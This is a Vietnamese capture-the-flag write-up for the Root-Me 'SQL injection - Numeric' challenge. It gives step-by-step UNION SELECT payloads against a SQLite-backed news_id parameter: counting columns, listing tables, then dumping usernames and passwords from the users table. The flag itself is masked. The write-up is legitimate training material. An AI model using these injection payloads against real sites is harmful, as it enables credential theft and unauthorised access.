


# [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

Thử bypass qua login thì không thể thực hiện được.

Kiểm tra các thẻ khác trong Home vì nhận thấy điều đặc biệt rằng, 3 link này đều dẫn đến **action=news&news\_id=\[x\].** Thử xóa id của news thì phát hiện database bị lỗi:

Database của server là SQLite3. Tương tự bài SQL Injection – String, ta thực hiện inject nó để tìm ra admin. Ta dò được số cột là 3:

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,1 from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,1%20from%20sqlite_master)

Ta dò được có 2 bảng users và news:

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,name from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,name%20from%20sqlite_master)

Tương tự bài String, ta show ra được username và password của users:

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,username,password from users](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,username,password%20from%20users)

Login vào thành công:

- Flag: "****************************"
